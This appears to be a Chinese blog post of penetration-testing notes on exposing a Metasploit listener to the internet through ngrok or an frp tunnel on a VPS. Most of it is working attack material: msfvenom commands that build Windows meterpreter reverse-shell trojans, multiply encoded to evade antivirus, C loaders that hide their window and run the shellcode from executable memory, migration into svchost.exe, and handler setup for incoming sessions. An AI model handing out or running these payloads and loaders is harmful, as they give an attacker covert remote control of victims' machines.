---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---

---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。


### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download   

下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）





接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```






ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```




 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```




使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```


回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```


meterpreter获取会话




方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：


服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```



启动成功后可以通过网页端访问来查看




接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```


运行 ./frpc  -c frpc.ini



ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```


也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力


使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```


最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```




### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！

---

